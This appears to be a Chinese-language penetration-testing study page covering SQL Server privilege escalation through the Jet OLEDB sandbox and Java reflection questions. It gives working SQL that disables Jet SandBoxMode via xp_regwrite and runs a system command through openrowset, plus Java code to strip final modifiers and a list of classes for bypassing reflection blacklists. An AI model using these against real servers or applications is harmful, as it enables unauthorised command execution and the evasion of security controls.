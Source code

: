 
#### 利用条件

- 拥有DBA权限
- sqlserver服务权限为system
- 服务器拥有jet.oledb.4.0驱动

沙盒提权的原理就是jet.oledb（修改注册表）执行系统命令。数据库通过查询方式调用mdb文件，执行参数，绕过系统本身自己的执行命令，实现mdb文件执行命令

```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0/关闭沙盒

select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
```
# java安全
## java 通用问题
### Java反射做了什么事情

反射是根据字节码获得类信息或调用方法。从开发者角度来讲，反射最大的意义是提高程序的灵活性。Java本身是静态语言，但反射特性允许运行时动态修改类定义和属性等，达到了动态的效果



### Java反射可以修改Final字段嘛

可以做到，参考以下代码

```java
field.setAccessible(true);
Field modifiersField = Field.class.getDeclaredField("modifiers");
modifiersField.setAccessible(true);
modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
field.set(null, newValue);
```



### 传统的反射方法加入黑名单怎么绕

可以使用的类和方法如下

```java
ReflectUtil.forName
BytecodeDescriptor
ClassLoader.loadClass
sun.reflect.misc.MethodUtil
sun.reflect.misc.FieldUtil
sun.reflect.misc.ConstructorUtil
MethodAccessor.invoke
JSClassLoader.invoke
JSClassLoader.newInstance
```
